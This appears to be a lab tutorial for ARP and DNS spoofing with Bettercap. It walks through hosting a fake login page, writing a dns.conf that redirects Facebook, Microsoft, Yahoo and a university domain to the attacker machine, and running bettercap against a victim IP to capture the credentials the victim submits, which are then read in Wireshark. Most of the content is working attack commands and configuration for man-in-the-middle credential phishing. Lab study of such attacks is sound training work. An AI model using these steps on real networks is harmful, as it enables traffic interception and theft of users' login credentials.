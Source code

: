 
##    Bettercap - ARP/DNS Spoofing

https://www.youtube.com/watch?v=58_TeuJ8tPU

Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.1.10  |
|                  |         ------------------
|                  |         ------------------
|   192.168.1.1    |---------|     Victim     |
|                  |         |  192.168.1.15  |
--------------------         ------------------
```
1. Install Bettercap
```
# apt-get install build-essential ruby-dev libpcap-dev
# gem install bettercap
```
2. Create a simple 'Login Form' page

https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_login_form
```
# mv /var/www/html/index.html /var/www/html/index.html.old
# gedit /var/www/html/index.html
```
- Save this file

3. Start the Apache Web Server 

- These commands will start our web server on our Kali machine hosting the fake login page.
```
# service apache2 stop
# service apache2 start
```
- Testing the web server on our Kali machine...

Go to Web browser > http://localhost

4. Create the `hosts` file to perform DNS spoofing

- In a real life scenario, an attacker would redirect traffic to their own machine for data sniffing. In this case, we set up a simple login page, then we use Bettercap to spoof DNS record so that when the victim visits his favorite webpages, he will be redirected to the attacker machine instead. This will probably fool the user into entering their credentials.

- We need to create a `hosts` file which is responsible for redirecting specific DNS requests.
```
# gedit dns.conf
```
- Then add some lines as follows:
```
local .*ais\.ac\.nz
local .*facebook\.com
local .*microsoft\.com
local .*yahoo\.com
```
- Save this file

5. Using Bettercap to conduct DNS Spoofing

- Usage:
```
# sudo bettercap -I ethx -X --gateway GATEWAY --target TARGET --dns HOSTS_FILE
```
- Firstly for testing purpose, we need to clear the ARP cache on Kali machine
```
# ip -s -s neigh flush all
# ip link set arp off dev eth0; ip link set arp on dev eth0
```
- Then check the ARP cache again on Kali machine
```
# arp -n
```
- Then, we uses this command to conduct DNS Spoofing (remember select the right network interface)
```
# sudo bettercap -I eth0 -X --gateway 192.168.1.1 --target 192.168.1.15 --dns dns.conf
```
6. Check your test results

- Now every time the victim visits the webpages you indicated in the "dns.conf" file, he will be redirected to the malicious webpage.

- For testing purpose, we also need to purge the DNS resolver cache + Web browsing history on Victim machine
cmd> ipconfig /flushdns
IE / Firefox / Chrome > Clear Browsing Data

> Now it's time to check all my favorite websites 

- On Victim machine, go to AIS/Facebook/Microsoft websites

=> We can check the spoofed DNS records on the victim machine (Windows machine)
cmd> ipconfig /displaydns

=> We can also see the DNS records in Bettercap => ...Received request for 'xxxxxx.xxx', sending spoofed reply 192.168.1.10...

- Then try to login using the fake webpage...
```
* Username: AIS_Username
* Password: AIS_Password
```
=> Check traffic sniffed using Wireshark > apply this filter string
```
ip.addr == 192.168.1.15 && http
```
